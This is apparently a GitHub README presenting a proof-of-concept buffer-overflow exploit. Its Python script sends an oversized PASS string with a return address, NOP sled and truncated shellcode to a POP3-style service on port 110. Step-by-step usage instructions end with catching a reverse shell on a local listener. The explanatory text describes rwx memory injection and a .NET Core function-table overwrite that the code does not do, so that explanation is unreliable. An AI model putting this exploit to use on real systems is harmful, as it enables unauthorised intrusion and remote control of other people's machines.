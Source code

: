 # Exploit PoC for Memory Injection Buffer Overflow 

This repository contains a proof-of-concept (PoC) exploit for a buffer overflow  in a target service. The exploit leverages a crafted buffer with a shellcode payload to gain unauthorized access to the target system.

## Disclaimer

This PoC is intended for authorized security testing and educational purposes only. Always obtain proper authorization before testing or using this exploit in any environment. The creators of this repository are not responsible for any misuse or damage caused by this exploit.

## Exploit Details

The exploit targets a buffer overflow vulnerability in a service running on a remote host. The exploit sends a crafted buffer to the target service, triggering the vulnerability and executing the shellcode. The technique involves identifying a memory region with rwx permissions, where the shellcode can be saved and executed. To achieve this, the vmmap command is used to find a suitable memory region, and then the shellcode is injected into the target process byte by byte.

After injecting the shellcode, the exploit overwrites a function pointer within the Dynamic Function Table (DFT) to trigger the execution of the shellcode. The DFT is used by the .NET Core runtime to provide helper functions for JIT compilation. By overwriting a pointer within the DFT, the control flow is redirected to the injected shellcode, resulting in its execution.

Here's the Python code for the exploit:

```python
import socket

# Set up target information
target_ip = '10.11.25.153'
target_port = 110

# Set up shellcode (use the provided shellcode or generate a new one with msfvenom)
shellcode = (
    "\xb8\x30\x3f\x27..." # Replace with the full shellcode
)

# Calculate the buffer size and return address based on the specific vulnerability
buffer_size = 2606
return_address = '\x8f\x35\x4a\x5f'

# Add NOP sled (optional, but can help improve exploit reliability)
nopsled = "\x90" * 8

# Create the final buffer with the required pattern, return address, NOP sled, and shellcode
buffer = 'A' * buffer_size + return_address + nopsled + shellcode

# Set up a socket to connect to the target
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# Send the exploit buffer to the target
s.send('USER username' + '\r\n')
s.send('PASS ' + buffer + '\r\n')

# Close the connection
s.close()
```

Replace `username` with a valid username for the target service (if required). This PoC exploit sends the crafted buffer to the target service, triggering the buffer overflow vulnerability and executing the shellcode.

Remember to set up a listener on your local machine (`10.11.0.41` in this case) to receive the reverse shell connection. You can use tools like `nc` or `metasploit` to create the listener.


## Usage

1. Replace the `shellcode` variable with the full shellcode for the target system.
2. Update the `target_ip` and `target_port` variables with the target system's IP address and port number.
3. Replace the `username` string with a valid username for the target service (if required).
4. Run the Python script to execute the exploit.
5. Monitor your listener for a reverse shell connection from the target system.
